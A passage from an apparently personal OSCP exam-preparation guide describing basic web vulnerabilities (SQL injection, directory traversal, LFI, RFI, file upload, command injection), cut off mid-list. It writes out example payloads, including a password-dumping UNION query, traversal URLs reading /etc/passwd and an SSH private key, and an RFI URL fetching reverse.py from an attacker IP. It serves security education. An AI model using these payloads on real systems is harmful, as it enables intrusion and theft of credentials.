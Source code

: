 Let's now analyze the content covered by each area in more detail.

### [#](https://blog.leonardotamiano.xyz/tech/oscp-technical-guide/#web)**Web**

With respect to the web enviroment, not much time is spent
discussing the **TCP** and **HTTP** protocols. This means that one must
have a good understanding of **computer networks** and of the most
basic **network protocols**. The core focus with respect to the web
enviroment is about discussing some of the most basic
vulnerabilities that webapps can contain. Of these, the most
important vulnerability is the **SQL injection**, which has an entire
module dedicated.

- **SQL injection**: Allows an attacker to inject custom and
potentially malicious SQL code that is then executed by the
underlying database. This can lead to leakage of data or to
**Remote Code Execution (RCE)** on the target server.
    
    ```
      ' OR 1=1 --
      1 UNION SELECT first_name, password FROM users #
    ```
    
- **Directory Traversals**: Allows an attacker to bypass typical
control mechanism offered by web servers in order to explore
the entire file system accessible by the user of the process
running the server.
    
    ```
      http://target.com/vuln?page=../../../../../../../etc/passwd
      http://target.com/vuln?page=?page=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Finetpub%2Fwwwroot%2FWeb.config
    ```
    
- **Local File Inclusion (LFI)**: Allows an attacker to insert within
a page of the web server a file present within the server
filesystem.
    
    ```
      http://target.com/vuln?page=../../../../../../../etc/passwd
      http://target.com/vuln?page=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fleo%2F.ssh%2Fid_rsa
    ```
    
- **Remote File Inclusion (RFI)**: Allows an attacker to insert
within a page of the web server a file present in a remote
resource, such as an attacker's custom we server.
    
    ```
      http://target.com/vuln?page=http://192.168.50.51/reverse.py
    ```
    
- **File upload vulnerabilities**: Allows an attacker to upload files
with malicious content that then can be used to leak data or to
obtain RCE.
- **OS command injections**: Allows an attacker to injects custom and
potentially malicious code that is then executed by the
underlying OS.
    